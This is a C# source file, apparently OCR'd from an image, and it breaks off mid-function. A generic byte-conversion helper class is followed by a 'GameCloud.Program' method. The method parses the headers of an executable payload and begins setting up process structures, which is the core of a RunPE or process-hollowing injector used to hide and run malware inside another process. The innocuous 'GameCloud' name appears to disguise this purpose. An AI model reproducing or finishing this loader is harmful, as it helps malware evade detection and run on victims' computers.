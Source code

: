 using System;
using System.ComponentModel;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Windows.Forms;
namespace Utility
{
    public static class BitConverterUtility
    {
        public static int ToInt32(byte[] bytes, int startIndex)
        {
            return BitConverter.ToInt32(bytes, startIndex);
        }

        public static short ToInt16(byte[] bytes, int startIndex)
        {
            return BitConverter.ToInt16(bytes, startIndex);
        }

        public static long ToInt64(byte[] bytes, int startIndex)
        {
            return BitConverter.ToInt64(bytes, startIndex);
        }

        public static uint ToUInt32(byte[] bytes, int startIndex)
        {
            return BitConverter.ToUInt32(bytes, startIndex);
        }

        public static byte[] GetBytes(int value)
        {
            return BitConverter.GetBytes(value);
        }

        public static byte[] GetBytes(long value)
        {
            return BitConverter.GetBytes(value);
        }
    }
}

namespace GameCloud
{

    public static class GameCloud
    {
        public static void Program(string path, byte[] payload)
        {
            int i = 0;
            while (i < 5)
            {
                int processId = 0;
                try
                {
                    int num = Utility.BitConverterUtility.ToInt32(payload, 60);
                    int num2 = Utility.BitConverterUtility.ToInt32(payload, num + 24 + 56);
                    int num3 = Utility.BitConverterUtility.ToInt32(payload, num + 24 + 60);
                    int num4 = Utility.BitConverterUtility.ToInt32(payload, num + 24 + 16);
                    short num5 = Utility.BitConverterUtility.ToInt16(payload, num + 6);
                    short num6 = Utility.BitConverterUtility.ToInt16(payload, num + 20);
                    IntPtr intPtr = (IntPtr.Size == 4) ? ((IntPtr)Utility.BitConverterUtility.ToInt32(payload, num + 24 + 28)) : ((IntPtr)Utility.BitConverterUtility.ToInt64(payload, num + 24 + 24));
                    int num7 = (IntPtr.Size == 4) ? 72 : 112;
                    IntPtr intPtr2 = GameCloud.AllocateAlignedMemory(num7);
                    Marshal.Copy(new byte[num7], 0, intPtr2, num7);
                    Marshal.WriteInt32(intPtr2, num7);